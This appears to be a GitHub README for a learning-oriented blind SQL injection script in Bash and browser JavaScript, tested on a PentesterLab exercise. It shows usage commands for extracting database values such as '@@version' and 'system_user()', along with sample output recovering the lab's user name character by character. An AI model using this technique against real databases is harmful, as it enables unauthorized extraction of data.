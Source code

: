 # Blind SQL injection script
This is a Bash script which automates blind SQL injections by testing characters: `{0..9} {A..z} . .. ; : - _ @`
It was written and tested based on this [PentesterLab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course) which actually supports in-band SQL injection which is highly preferable to blind SQLIs. However, this was written for the sake of learning how to automate blind SQL injections, since all in-band SQLIs can be treated as blind SQL injections but not vice versa.

Previously I used a similar script but for an eLS PTP lab. Since that lab is not open to the public and I haven't found a free one publicly available, this will do. This script was not originally written by me, I used [this for reference](https://github.com/chilico/SQLblind) which itself appeared to be copied from eLS's PTP course on Web app pentesting.

## Important:
This script requires heavy editing. You have to use Burpsuite to test the SQLI parameters, then copy as `curl`, replace the curl syntax in this script, together with `$URL`, `$truestring`.

## Usage
`./SQLblind.sh 20 '@@version'`

`./SQLblind.sh 20 'system_user()'`

## Output for Bash script
```
root@Kali:~/Web# ./SQLblind.sh 30 'system_user()'
Edit the $URL,$truestring and curl command before you use it. Basically change almost everything :) 
Usage: ./SQLblind.sh max-length 'query'
Eg. ./SQLblind.sh 20 'database()' 
Eg. ./SQLblind.sh 30 '@@version'
extracting the results from query system_user()...
Character number 1 found: P
Character number 2 found: E
Character number 3 found: N
Character number 4 found: T
Character number 5 found: E
Character number 6 found: S
Character number 7 found: T
Character number 8 found: E
Character number 9 found: R
Character number 10 found: L
Character number 11 found: A
Character number 12 found: B
Character number 13 found: @
Character number 14 found: L
Character number 15 found: O
Character number 16 found: C
Character number 17 found: A
Character number 18 found: L
Character number 19 found: H
Character number 20 found: O
Character number 21 found: S
Character number 22 found: T
Results: PENTESTERLAB@LOCALHOST

```
## Output for JS script
I've also translated it into AJAX Javascript which can be run on the browser console. This obviates the need to login and authenticate by shell. Tested on Chrome 78 console.
```
Extracting results from query system_user()...
Character number 1 found: p
Character number 2 found: e
Character number 3 found: n
Character number 4 found: t
Character number 5 found: e
Character number 6 found: s
Character number 7 found: t
Character number 8 found: e
Character number 9 found: r
Character number 10 found: l
Character number 11 found: a
Character number 12 found: b
Character number 13 found: @
Character number 14 found: l
Character number 15 found: o
Character number 16 found: c
Character number 17 found: a
Character number 18 found: l
Character number 19 found: h
Character number 20 found: o
Character number 21 found: s
Character number 22 found: t
Results: pentesterlab@localhost
```
